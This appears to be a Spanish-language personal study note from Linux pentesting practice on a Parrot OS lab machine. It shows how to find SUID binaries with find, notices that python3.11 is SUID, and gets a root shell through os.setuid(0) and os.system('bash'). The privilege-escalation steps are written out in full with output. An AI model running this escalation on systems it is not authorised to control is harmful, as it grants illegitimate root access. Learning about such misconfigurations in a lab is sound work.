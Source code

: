 # Paralelizar comandos
┌─[root@parrot]─[/home/user]
└──╼ #which python | xargs ls -l
lrwxrwxrwx 1 root root 24 Apr  9  2023 /usr/bin/python -> /etc/alternatives/python

┌─[user@parrot]─[~]
└──╼ $find / -type f -perm -4000 2>/dev/null
- f = quiero buscar file (sino d directorios)
- privilegio 4000 = SUID a buscar
- 2>/dev/null = para que no salgan errores al no ser root

┌─[user@parrot]─[~]
└──╼ $find / -type f -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/fusermount3
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/ntfs-3g
/usr/bin/passwd
/usr/bin/pkexec
__/usr/bin/python3.11__ => *python es SUID*
/usr/bin/su
/usr/bin/sudo
/usr/bin/umount
/usr/bin/vmware-user-suid-wrapper
/usr/lib/chromium/chrome-sandbox
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/sbin/exim4
/usr/sbin/pppd
/usr/share/codium/chrome-sandbox
----

┌─[user@parrot]─[~]
└──╼ $ls -l /usr/bin/python3.11
-rwsr-xr-x 1 root root 6618304 Apr 28 14:11 /usr/bin/python3.11
┌─[user@parrot]─[~]
└──╼ $python3.11
Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system("whoami")
user
0
>>> os.setuid(0)
>>> os.system("whoami")
root
0
>>> 
# Al ser Python SUID puedo ejecutar setuid para ser ROOT directamente. !!!! PUEDE ESCALAR PRIVILEGIOS !!!
>>> os.system("bash")
┌─[root@parrot]─[~]
└──╼ #
# TAMBIEN PUEDO DECIRLE QUE ME DE DIRECTAMENTE UNA BASH !!!!